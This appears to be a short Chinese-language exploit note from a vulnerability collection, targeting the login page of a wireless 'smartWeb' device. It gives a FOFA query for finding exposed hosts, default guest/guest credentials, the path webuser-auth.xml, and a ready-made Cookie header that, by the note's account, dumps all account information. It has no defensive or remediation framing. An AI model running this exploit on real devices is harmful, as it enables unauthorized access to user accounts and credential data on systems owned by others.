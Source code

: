 <languages  />

FOFA
----

    title="无线smartWeb--登录页面"

默認guest密碼
-------------

    guest/guest

漏洞位置
--------

    http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

漏洞利用
--------

Cookice添加以下內容

    Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest

可以獲取所有賬戶信息

參考
----

<https://mp.weixin.qq.com/s/EICYTqRWDRB8OfXKHxCBfQ>